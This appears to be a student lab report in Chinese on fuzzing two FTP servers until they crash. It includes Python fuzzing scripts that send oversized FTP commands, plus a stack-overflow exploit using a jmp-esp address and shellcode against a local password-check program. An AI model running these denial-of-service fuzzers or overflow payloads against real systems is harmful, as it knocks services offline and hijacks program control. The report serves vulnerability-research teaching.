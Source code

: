 ```yaml
---
title: 漏洞挖掘与模糊测试 
date: 2019-11-29 0:06:38 
tags:
  - "网络空间安全"
  - "软件安全"
categories:
  - ["实验","软件安全"]
  - ["漏洞","拒绝服务"]
comments: true

---
```


## 目标

了解fuzz原理，使用此方法模糊测试两种ftp服务器软件的漏洞，使其停止工作。
<!-- more -->

## 测试步骤与结果

### Easy FTP Server的Fuzz过程（FtpFuzz工具法）

1. 打开 Easy FTP Server3.1，点击Start开始服务。 {% asset_img 1.png %}
2. 打开FTP Fuzzer，把USER和PASS的参数改为`anonymous`
   {% note warning %} 不要选中右上角的Fuzz this FTP command {% endnote %} {% grouppicture 2-2 %} {% asset_img 2.png %} {%
   asset_img 3.png %} {% endgrouppicture %}
3. 配置fuzz所用的脏数据，我们的目标是`LIST`指令。 {% grouppicture 2-2 %} {% asset_img 4.png "这回要选中Fuzz this FTP command" %} {% asset_img
   5.png "配置fuzzing data 为..?" %} {% endgrouppicture %}
4. 设置好服务器地址和端口，然后点击start开始。 {% asset_img 6.png %} {% asset_img 7.png %}
5. 在输出中时不时观察到有425错误：不能打开数据连接产生 {% asset_img 8.png %}
6. 出现红色的输出代表着FTP服务器已经宕机 {% asset_img 9.png %} {% asset_img 10.png "服务器端报错印证了这一点" %}
7. 查看同目录下的`ftptrace.txt`，发现是因为输入的命令过长，导致了服务器处理命令时缓冲区溢出，服务宕机。 {% asset_img 11.png %}

### Home FTP Server的Fuzz过程（python脚本法）

{% note fuzz源码 %}

```python fuzz.py
import socket,sys
def ftp_test(ip,port1):
    target = ip
    port = port1
    buf = 'a'*272
    j=1
    fuzzcmd = ['mdelete ','cd ','mkdir ','delete ','cwd ','mdir ','mput ','mls ','rename ','site index ']
    s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    try:
        connct = s.connect((target,port))
        print "[+] Connected!"
    except:
        print "[!] Connection Failed!"
        sys.exit(0)
    s.recv(1024)
    s.send('USER test\r\n')
    s.recv(1024)
    s.send('PASS 123456\r\n')
    s.recv(1024)
    print "[+] Sending payload..."
    for i in fuzzcmd:
        s.send(i + buf*j + '\r\n')
        s.send(i + buf*j*4 + '\r\n')
        s.send(i + buf*j*8 + '\r\n')
        s.send(i + buf*j*40 + '\r\n')
        try:
            s.recv(1024)
            print "[!] Fuzz failed!"
        except:
            print "[+] Maybe we find a bug!"

if __name__ == '__main__':
    ftp_test("127.0.0.1",21)
```

{% endnote %}

1. 首先让ollydbg附加进程到ftpserver上 {% asset_img 12.png %}
2. 运行脚本，发现全部输出了`fuzz failed`，但与此同时，ftp服务也停止了。下一次再运行脚本，就会输出`Connection failed`。 {% grouppicture 3-3 %} {% asset_img
   13.png "fuzz failed" %} {% asset_img 16.png "connection failed" %} {% asset_img 15.png "服务也停止了" %} {% endgrouppicture
   %}
3. 查看system log，发现其在接收两次过长参数的`site index`垃圾指令后停止运行。 {% asset_img 17.png %}
4. Homeftpserver发生崩溃时，跳转到`KERNEL32.77399ED8`时产生了异常`0EEDFADE`。 {% asset_img 14.png "系统异常" %}

## 测试结论

* 2.1实际上复现了Quick’n Easy FTP Server Lite Version 3.1远程拒绝服务漏洞[^1]，FTP协议中的`LIST`命令后的用户数据长度如果超过232，同时最后字符以`?`结尾，就会造成这个程序的崩溃。

* 2.2可以通过自己编写的fuzz代码实现对ftp服务器发送脏数据包以实现fuzz攻击，达到让目标服务器崩溃的效果。虽然可以找到崩溃的位置，但本次实验未能探究到崩溃的原因。

## 思考题

1. 初次运行结果如下，用IDA32位打开源程序进行逆向分析。 {% asset_img 思考-1.png %}
2. 整体过程就是加载`user32.dll`，打开`password.txt`读出内容，然后与`"1234567"`作比较，若相等，则通过验证。我们可以看到在`sub_401030`有一个无界写入有界的`strcpy`
   操作，很容易发生溢出，那么我们要怎么知道在什么时候发生溢出呢？ {% note info %} sub_401005仅仅是跳转到了sub_401030 {% endnote %} {% asset_img 思考-2.png %} {%
   asset_img 思考-3.png %}
3. 首先通过fuzz计算“缓冲区”大小。每次向里填充一个字符，最终计算出我们需要填充字符的数量为`11940`比特。在填充满之前，会引发右图所示错误，注意到其中有提示`"ESP was not properly saved"`
   ，说明ESP可能被覆盖掉了 {% note fuzz源码 %}

```python fuzz.py
import os

rpwd = "Congratulation! You have passed the verification!\n"
wpwd = "incorrect password!\n"

def write_file(num):
    with open("password.txt","w+") as fp:
        fp.write("a"*num)
def get_output():
    p=os.popen("overflow_exe.exe")
    return "".join(p.readlines())

def is_valid_output(output):
    try:
        return output in (rpwd,wpwd)
    except:
        return False

def fuzz():
    i = 100
    breakout_num = 0
    for i in range(100,20000,100):
        write_file(i)
        if is_valid_output(get_output()):
            print "[+] Writing {} letters to password.txt".format(i)
            continue
        else:
            for j in range(i-100,i,10):
                write_file(j)
                if is_valid_output(get_output()):
                    print "[+] Writing {} letters to password.txt".format(j)
                    continue
                else:
                    for k in range(j-10,j+1):
                        write_file(k)
                        if is_valid_output(get_output()):
                            print "[+] Writing {} letters to password.txt".format(k)
                            breakout_num=k
                            continue
                        else:
                            breakout_num=k
                            break
                        break
                break
        break
    print "[*] The program broke up after %d bytes of 'a's."%breakout_num
```

{% endnote %} {% grouppicture 2-2 %} {% asset_img 思考-4.png %} {% asset_img 思考-9.png %} {% endgrouppicture %}

4. 还有一个缓冲区？通过ollydbg调试可以看到在检验密码的函数中有一个`MOV,EAX 2EE4`操作，中间取了`[EBP-2EE4]`的有效地址，后面还有一个`ADD,ESP 2EE4`
   操作，可以推断这是再开辟另一块缓冲区，大小为十进制的`12004`字节。 {% asset_img 思考-7.png %}
5. 此时EBP的值为`0x35f20`。 {% asset_img 思考-8.png %}
6. 我们输入的“密码”被复制到了`0x3307c`开头的地址上。`0x35f20-0x3307c=11940`(10进制)，与之前fuzz结果相同，说明`11940`字节一旦占满，程序就会崩溃 {% asset_img 思考-6.png
   %} {% grouppicture 2-2 %} {% asset_img 思考-10.png %} {% asset_img 思考-11.png %} {% endgrouppicture %}
7. 上图是当`11940`个`"a"`被复制时，栈上的情况。可以看到`0x35f20`中的末两位被`11940`个`"a"`字符串的末尾`\0`所占，导致返回地址错误，程序崩溃 {% asset_img 思考-12.png %}
8. 所以这个缓冲区的大小为`11940-4（32位系统的ebp大小）=11936`字节。一旦缓冲区大小被计算出来，就可以根据前几次作业中缓冲区溢出的知识来通过“验证”。
9. 这次仍然利用`jmp esp`地址`77f8948b`作为跳板 {% asset_img 思考-5.png %}
10. Payload最终格式为：填充物（11940个a含4字节ebp）+`jmp_esp`地址+shellcode(`jmp 00401147`) 。构造password文档如下

```python exploit.py
def final_leak():
    shellcode = "\xe9\x1a\xb2\x3c\x00\x90\x90\x90"
    fill_in = "a"*11940+"b"*4
    with open("password.txt","w") as f:
        f.write(fill_in+jmp_esp+shellcode)
```

{% note warning %}

* 但是执行这个shellcode过后跳到了旁边的地址上，没有成功通过验证。只能在跳到`esp`地址后通过修改汇编以跳入验证成功语句中。
* 可能是指令在执行的过程中遇见了坏字符导致其在内存中的值发生了变化，致使执行不成功。
* 但是可以成功溢出，因为在调试的时候已经发现可以陷入内核中，从jmp esp地址中返回程序，shellcode被成功解析了。 {% asset_img 思考-13.png %} {% endnote %}

[^1]: [Quick 'n Easy FTP Server Lite 3.1 - Denial of Service](https://www.exploit-db.com/exploits/12853)
